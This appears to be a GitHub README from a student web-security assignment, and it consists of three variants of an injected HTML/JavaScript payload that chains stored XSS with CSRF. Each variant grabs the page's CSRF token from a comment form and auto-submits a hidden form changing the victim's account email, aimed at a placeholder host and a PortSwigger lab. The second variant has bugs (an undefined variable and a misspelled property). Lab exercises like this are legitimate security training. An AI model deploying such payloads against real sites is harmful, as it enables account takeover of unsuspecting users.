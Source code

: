 # WebSecurity-CSRF
Web Security Assignment on CSRF


# Script that will exploit the stored XSS vulnerability and trigger a CSRF

<form id="fake_form" action="http://www.vulnerable.com:5000/profile/update-email" method="POST"> 
  <input id="my_mail"  name="email" value=""> 
  <input id="my_csrf" name="csrf" value=""> 
</form> 

<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    document.getElementById("my_mail").value = rndMail();
    document.getElementById("my_csrf").value = stolen_csrf;
    document.getElementById("fake_form").submit(); 
}
</script>


<form id="fake_form" action="https://www.vulnerable.com:5000/profile/update-email" method="POST"> 
  <input id="my_mail"  name="email" value=""> 
  <input id="my_csrf" name="csrf" value=""> 
</form> 

<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    let stolen_csrf = document.getElementsByTagName("form");
    let form = [...form].filter((f) => {
    return f.action.includes("/post/comment");
  })[0].childrens[0].value;
 
    document.getElementById("my_mail").value = rndMail();
    document.getElementById("my_csrf").value = stolen_csrf;
    document.getElementById("fake_form").submit(); 
}
</script>


<form id="fake_form" class="login-form" name="change-email-form" action="https://0a15006803dcd908807705c80023008c.web-security-academy.net/my-account/change-email" method="POST"> 
                             
    <input required="" id="my_mail" type="email" name="email" value="tiho@extrachiavato.com"> 
    <input required="" id="my_csrf" name="csrf" value=""> 
                       
</form> 
 
<script> 
 
function getRandomInt(max) { 
  return Math.floor(Math.random() * max); 
} 
 
window.onload = function(){ 
    let form = document.getElementsByTagName("form") 
    form = [...form].filter((x) => {console.log(x.action); return x.action.includes("/post/comment")}) 
    let childrens=(form[0]).children; 
    let elem = childrens[0]; 
    let stolen_value2=elem.value; 
 
 
    document.getElementById("my_mail").value = "test@" + getRandomInt(100000)+ ".com" 
    console.log(stolen_value2) 
    document.getElementById("my_csrf").value = stolen_value2; 
 
    document.getElementById("fake_form").submit(); 
} 
</script>